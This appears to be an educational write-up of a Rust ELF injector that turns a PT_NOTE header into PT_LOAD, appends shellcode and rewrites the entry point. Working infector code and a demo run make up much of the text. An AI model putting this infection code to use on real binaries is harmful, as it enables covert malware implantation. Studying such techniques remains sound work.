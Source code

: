 # PT_NOTE to PT_LOAD ELF injector example

I read about a technique on the [SymbolCrash blog](https://www.symbolcrash.com/2019/03/27/pt_note-to-pt_load-injection-in-elf/) for injecting shellcode into an ELF binary by converting a `PT_NOTE` section in the Program Headers into a `PT_LOAD` section. I thought this sounded interesting and I didn't know a lot about ELF, so I took it as an opportunity to learn many new things at once.

For this project I created a small, very incomplete library I called [mental_elf](https://github.com/d3npa/mental-elf) which makes parsing and writing ELF and program headers easier. The code therein is very primitive and easy to understand, so I won't talk about it any more here. Let's focus on the infection technique instead :)

## Overview

As implied by the title, this infection technique involves converting an ELF's `PT_NOTE` program header into a `PT_LOAD` in order to run shellcode. The inputs to our program are therefore:

- an ELF file to infect
- some shellcode to inject

Note: this example does not support Position Independent Executables (PIE). I am disabling it by passing `-C relocation-model=static` to rustc when compiling my target program. 

Note (2): this technique does not work on Go binaries because the Go runtime makes use of and therefore requires a valid `PT_NOTE` section and header.

Here is a note about the Note Section in the [Official ELF Specification](http://www.skyfree.org/linux/references/ELF_Format.pdf):

> Note information is optional.  The presence of note information does not affect a program’s ABI conformance, provided the information does not affect the program’s execution behavior.  Otherwise, the program does not conform to the ABI and has undefined behavior

This infection technique requires a `PT_NOTE` section to be present in the ELF file, and involves modifying two structures: the ELF header and Program Headers (where the `PT_NOTE` program header itself resides). 

We can append shellcode to the end of the binary and jump there at the start by modifying the program entry point in the ELF header. To make sure the shellcode is loaded, we can change the otherwise unused `PT_NOTE` section to a `PT_LOAD` section which will make sure the shellcode is loaded at the address we enter.

## Shellcode

This example uses the Netwide ASseMbler (NASM) to prepare shellcode to inject, and so installing `nasm` is required to run this example. 

The `rbp`, `rsp`, and `rdx` registers must have correct values before the shellcode jumps back to the original entry point. Their uses are specified in the [AMD64 System V ABI](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.95.pdf) (under Process Initialization → Stack State). Since `rsp` and `rbp` are not touched by this shellcode, it only resets `rdx` to zero.

```asm
xor rdx, rdx
```

The shellcode also needs to be patched so it can actually jump back to the host's original entry point after finishing its tasks. To make patching easier, I designed this shellcode so it would run top-to-bottom and run off the end of the file, which allows us to patch it by simply appending a jump instruction. In x86_64, the `jmp` parameter cannot take a 64bit address to jump to, so we must pass through the `rax` register to make arbitrary jumps. The rust snippet below patches a `shellcode` byte vector to append a jump to `entry_point`:

```rust
fn patch_jump(shellcode: &mut Vec<u8>, entry_point: u64) {
    // Store entry_point in rax
    shellcode.extend_from_slice(&[0x48u8, 0xb8u8]);
    shellcode.extend_from_slice(&entry_point.to_ne_bytes());
    // Jump to address in rax
    shellcode.extend_from_slice(&[0xffu8, 0xe0u8]);
}
```

With this, we have a piece of shellcode that can run at the start of the program and pass control back to the host's original entry point. 

## Infection

To ensure the shellcode runs and returns correctly, the ELF header and PT_NOTE program headers must be edited. The ELF header is where we tell the loader where to jump to start the program (entry point). The PT_NOTE header will be turned into a PT_LOAD header which loads the shellcode into virtual memory with the appropriate permissions.

The headers are read from the elf file using the mental_elf library:

```rust
// Parse ELF and program headers
let mut elf_header = mental_elf::read_elf64_header(&mut elf_fd)?;
let mut program_headers = mental_elf::read_elf64_program_headers(
    &mut elf_fd, 
    elf_header.e_phoff, 
    elf_header.e_phnum,
)?;
```

After loading the ELF file, the shellcode is patched to jump back to the ELF's original entry point:

```rust
// Patch the shellcode to jump to the original entry point after finishing
patch_jump(&mut shellcode, elf_header.e_entry);
```

The section loaded by `PT_LOAD` will be page-aligned, and the shellcode will not be loaded at a nice round address like `0xc00000000`. To make the coding experience easier, the offset of the shellcode in the file is used to derive the address in virtual memory the shellcode will end up. Below, we retrieve the offset of the shellcode by subtracting the shellcode length from the total file length (this snippet runs after appending the shellcode to the file). 

```rust
// Calculate offsets used to patch the ELF and program headers
let sc_len = shellcode.len() as u64;
let file_offset = elf_fd.metadata()?.len() - sc_len;
let memory_offset = 0xc00000000 + file_offset;
```

`memory_offset` will become the new ELF entry point.

```rust
// Patch the ELF header to start at the shellcode
elf_header.e_entry = memory_offset;
```

When we patch the `PT_NOTE` header, we need to write in all the details the loader needs to know so it can load the shellcode, including segment permissions, offsets, length etc.

```rust
// Look for a PT_NOTE section
for phdr in &mut program_headers {
    if phdr.p_type == PT_NOTE {
        // Convert to a PT_LOAD section with values to load shellcode
        println!("Found PT_NOTE section; converting to PT_LOAD");
        phdr.p_type = PT_LOAD;
        phdr.p_flags = PF_R | PF_X;
        phdr.p_offset = file_offset;
        phdr.p_vaddr = memory_offset;
        phdr.p_memsz += sc_len as u64;
        phdr.p_filesz += sc_len as u64;
        break;
    }
}
```

Lastly the changes to the headers are committed back into the ELF file.

```rust
// Commit changes to the program and ELF headers
mental_elf::write_elf64_program_headers(
    &mut elf_fd, 
    elf_header.e_phoff,
    elf_header.e_phnum,
    program_headers,
)?;
mental_elf::write_elf64_header(&mut elf_fd, elf_header)?;
```

After being infected, an ELF file's entry point will point to the virtual memory offset the shellcode is loaded to, as defined by our crafted `PT_LOAD` program header. Because the shellcode was patched with a jump instruction back to the original entry point, the program will run normally after the shellcode has run.

```
$ make
cd files && make && cd ..
make[1]: Entering directory '/.../files'
rustc -C opt-level=z -C debuginfo=0 -C relocation-model=static target.rs
nasm -o shellcode.o shellcode.s
make[1]: Leaving directory '/.../files'
cargo run --release files/target files/shellcode.o
   Compiling mental_elf v0.1.0 (https://github.com/d3npa/mental-elf#0355d2d3)
   Compiling ptnote-to-ptload-elf-injection v0.1.0 (/...)
    Finished release [optimized] target(s) in 1.15s
     Running `target/release/ptnote-to-ptload-elf-injection files/target files/shellcode.o`
Found PT_NOTE section; converting to PT_LOAD
echo 'Done! Run target with: `./files/target`'
Done! Run target with: `./files/target`
$ ./files/target
dont tell anyone im here
hello world!
$
```

## Conclusion

This was a very fun project where I learned so much about ELF, parsing binary structures in Rust, and viruses in general. Thanks to netspooky, sblip, TMZ, and others at tmp.out for teaching me, helping me debug and motivating me to do this project! <3